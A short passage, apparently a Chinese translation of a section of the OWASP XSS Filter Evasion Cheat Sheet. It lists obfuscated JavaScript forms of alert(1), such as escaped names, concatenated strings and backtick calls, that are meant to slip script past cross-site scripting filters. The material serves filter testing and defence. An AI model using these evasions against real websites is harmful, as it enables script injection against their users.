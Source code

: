 ### 过滤器绕过警报混淆[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#filter-bypass-alert-obfuscation)

- `(alert)(1)`
- `a=alert,a(1)`
- `[1].find(alert)`
- `top[“al”+”ert”](1)`
- `top[/al/.source+/ert/.source](1)`
- `al\u0065rt(1)`
- `top[‘al\145rt’](1)`
- `top[‘al\x65rt’](1)`
- `top[8680439..toString(30)](1)`
- `alert?.()`
- ` `${alert``}``（有效载荷应包括前导和尾随反引号。）
- `(alert())`
